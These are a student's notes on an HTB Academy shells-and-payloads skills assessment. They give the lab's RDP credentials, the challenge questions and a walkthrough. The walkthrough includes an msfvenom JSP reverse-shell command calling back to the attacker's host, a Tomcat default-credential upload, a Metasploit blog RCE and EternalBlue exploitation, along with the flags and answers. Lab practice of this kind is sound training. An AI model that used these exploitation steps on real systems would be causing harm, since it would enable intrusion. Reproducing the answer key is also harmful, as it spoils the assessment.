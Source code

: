 ## Scenario:
CAT5's team has secured a foothold into Inlanefrieght's network for us. Our responsibility is to examine the results from the recon that was run, validate any info we deem necessary, research what can be seen, and choose which exploit, payloads, and shells will be used to control the targets. Once on the VPN or from your `Pwnbox`, we will need to `RDP` into the foothold host and perform any required actions from there. Below you will find any credentials, IP addresses, and other info that may be required.

## Objectives

- Demonstrate your knowledge of exploiting and receiving an interactive shell from a `Windows host or server`.
- Demonstrate your knowledge of exploiting and receiving an interactive shell from a `Linux host or server`.
- Demonstrate your knowledge of exploiting and receiving an interactive shell from a `Web application`.
- Demonstrate your ability to identify the `shell environment` you have access to as a user on the victim host.

Complete the objectives by answering the challenge questions `below`.

## Credentials and Other Needed Info:
Foothold:
- Credentials: `htb-student` / HTB_@cademy_stdnt! Can be used by RDP.

## Connectivity To The Foothold
Accessing the Skills Assessment lab environment will require the use of [XfreeRDP](https://manpages.ubuntu.com/manpages/trusty/man1/xfreerdp.1.html) to provide GUI access to the virtual machine. We will be connecting to the Academy lab like normal utilizing your own VM with a HTB Academy `VPN key` or the `Pwnbox` built into the module section. You can start the `FreeRDP` client on the Pwnbox by typing the following into your shell once the target spawns:

```bash
xfreerdp /v:<target IP> /u:htb-student /p:HTB_@cademy_stdnt!
```

Once you initiate the connection, you will be required to enter the provided credentials again in the window you see below:
![[Pasted image 20250927152026.png]]

Enter your credentials again and click `OK` and you will be connected to the provided Parrot Linux desktop instance.
#### Target Hosts

![[Pasted image 20250927152039.png]]

Hosts 1-3 will be your targets for this skills challenge. Each host has a unique vector to attack and may even have more than one route built-in. The challenge questions below can be answered by exploiting these three hosts.

IP in inlanefreight network: 
### Questions

1. What is the hostname of Host-1? (Format: all lower case)

2.  Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case)

3. What distribution of Linux is running on Host-2? (Format: distro name, all lower case)

4.  What language is the shell written in that gets uploaded when using the 50064.rb exploit?

5. Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt

6. What is the hostname of Host-3?

7.  Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt

```shell
HOST 1:
Open burp suite to get a browser and go to ip:8080
Go to server-status and enter this default creds:
tomcat:Tomcatadm

Go to List Applications a upload a war reverse shell:
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=443 -f war > shell.war
Set up a listener on port 443 and then upload the file and click on it to execute.

We get a shell.

Answer 1: shells-winsvr
Answer 2: dev-share
```


```shell
HOST 2:
Gobuster and find a directory named data where we find a config file with credentials.
Then use it to connect to the blog. We can now abuse of the RCE mentionned in the blog with metasploit. (50064.rb)

Answer 3: Ubuntu
Answer 4: php
Answer 5: B1nD_Shells_r_cool
```


```shell
HOST 3:
I found that 172.16.1.13 is vulnerable to EternalBlue exploit.
Just use Metasploit psexec module to get a meterpreter.

Answer 6: shells-winblue
Answer 7: One-H0st-Down!
```